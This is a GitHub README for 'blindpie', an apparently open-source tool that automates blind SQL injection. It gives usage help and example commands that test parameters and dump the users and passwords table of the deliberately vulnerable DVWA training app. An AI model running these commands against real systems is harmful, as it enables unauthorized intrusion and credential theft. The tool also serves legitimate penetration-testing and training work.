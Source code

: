 <h1 align="center">
	<img src="https://i.imgur.com/xPTh4OJ.png" alt="blindpie" width="25%">
</h1>

<h4 align="center">Automatically exploit blind-SQLi vulnerabilities</h4>

<p align="center">
	<a href="https://github.com/alessiovierti/blindpie/releases">
		<img src="https://img.shields.io/github/release/alessiovierti/blindpie.svg">
	</a>
	<a href="https://travis-ci.org/alessiovierti/blindpie">
		<img src="https://travis-ci.org/alessiovierti/blindpie.svg?branch=master">
	</a>
	<a href="LICENSE.md">
		<img src="https://img.shields.io/badge/license-MIT-blue.svg">	
	</a>
</p>

<p align="center">
	<a href="#installation">Installation</a> •
	<a href="#features">Features</a> •
	<a href="#usage">Usage</a> •
	<a href="#examples">Examples</a> •
	<a href="#tips">Tips</a> •
	<a href="#contributing">Contributing</a>
</p>

<p align="center">
	<img src="https://i.imgur.com/tfMaLG9.gif" alt="Demo Long Fetch">
</p>

### Installation

```
pip install blindpie
```

### Features

- Test if any parameter is exploitable
- **Fast** multithreading fetching of a table
- Dump part of a table or keep fetching until stopped / until end of table
- Dump results on a TSV file
- Use custom headers for HTTP requests
- Define the default values of the other parameters in the requests

### Usage

<h4 align="center">Testing parameters</h4><p></p>

<p align="center">
	<img src="https://i.imgur.com/0D9Zyx0.gif" alt="Demo Test">
</p>

```
usage: blindpie.py test [-h] -M method -P params [-H headers] [-T threshold]
                        [-I max_interval]

optional arguments:
  -h, --help            show this help message and exit
  -M method, --method method
                        the HTTP method for the requests
  -P params, --params params
                        the parameters to test and their default values (must
                        be a JSON dictionary)
  -H headers, --headers headers
                        the headers for the requests (must be a JSON
                        dictionary)
  -T threshold, --threshold threshold
                        threshold used to decide if an answer is affirmative
                        or negative (must be greater than 1)
  -I max_interval, --max_interval max_interval
                        max time to wait between each request in ms
```

<h4 align="center">Fetching a table</h4><p></p>

<p align="center">
	<img align="center" src="https://i.imgur.com/ubsFh8M.gif" alt="Demo Short Fetch">
</p>

```
usage: blindpie.py fetch_table [-h] -M method -P params [-H headers]
                               [-T threshold] [-I max_interval] -p
                               vulnerable_param -t table -c columns
                               [-r from_row] [-n n_rows]
                               [--min_row_length min_row_length]
                               [--max_row_length max_row_length]
                               [-o output_path]

optional arguments:
  -h, --help            show this help message and exit
  -M method, --method method
                        the HTTP method for the requests
  -P params, --params params
                        the parameters and their default values (must be a
                        JSON dictionary)
  -H headers, --headers headers
                        the headers for the request (must be a JSON
                        dictionary)
  -T threshold, --threshold threshold
                        threshold used to decide if an answer is affirmative
                        or negative (must be greater than 1)
  -I max_interval, --max_interval max_interval
                        max time to wait between each request in ms
  -p vulnerable_param, --vulnerable_param vulnerable_param
                        the vulnerable parameter to exploit
  -t table, --table table
                        the name of the table to fetch
  -c columns, --columns columns
                        the columns to select
  -r from_row, --from_row from_row
                        the row from which to start to select
  -n n_rows, --n_rows n_rows
                        the number of rows to select
  --min_row_length min_row_length
                        limit selection to rows with this min length
  --max_row_length max_row_length
                        limit selection to rows with this max length
  -o output_path, --output_path output_path
                        path to the output file
```

### Examples

Let's consider for example the [Damn Vulnerable Web Application](http://www.dvwa.co.uk), in particular its page `vulnerabilities/sqli_blind/`.

The page shows a form to search information about a user. The form sends a GET request with parameters `id` and `Submit`.

To test which parameters are exploitable we can use the `test` command:

- First, we need to prepare a default request which contains the default values for the parameters, as a JSON dictionary:

	`{"id":"1","Submit":"Submit"}`

- Then we need to prepare the headers (if you don't provide any `blindpie` will use some default ones). In this case the page requires a PHPSESSID value in the Cookie header (and a cookie `security` to set the security level of DVWA):

	`{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}`

The following command will find which parameters are exploitable:

```
$ blindpie.py -u {YOUR_DVWA_INSTANCE}/vulnerabilities/sqli_blind/ test -M get -P '{"id":"1","Submit":"Submit"}' -H '{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}'
```

`blindpie` will find out that the `id` parameter is indeed exploitable.

Let's say, for example, that we want to dump the `user` table, by selecting its columns `user` and `password` by exploiting the vulnerability we found.

The following command will dump the fetched rows into a TSV file:

```
$ blindpie.py -u {YOUR_DVWA_INSTANCE}/vulnerabilities/sqli_blind/ fetch_table -M get -P '{"id":"1","Submit":"Submit"}' -H '{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}' -p "id" -t "users" -c "user,password"
```

If you want to end the fetching before it may be completed, stop it with <kbd>CTRL</kbd>+<kbd>C</kbd>.
You'll find the dumped table in a file named `blindpie.out` in your working directory.

### Tips

`blindpie` gives you some ways of getting faster or more reliable results:

- `--threshold` can make fetching much faster when it's close to 1 but it will be also much less reliable.
- `--max_interval` can make requests more distant one with the other. Choose wisely since an high value will make fetching much slower. When testing local targets you should use 0.
- `--min_row_length` and `--max_row_length` can help get faster results by limiting the search to rows with length in this range.

### Contributing

If you have any idea, tip, or you want to contribute in any way, open an issue or contact me in any way you prefer.

If you want to have a look at how the project is structured check `./docs/uml/uml.svg`.

If you wanna play with it or extend it use the `Makefile` to install the requirements (`$ make init`) or launch the tests (`$ make test`).

### Authors

* **Alessio Vierti** - *Initial work*
* [@gabrielevierti](https://github.com/gabrielevierti) - *Logo*

### License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details
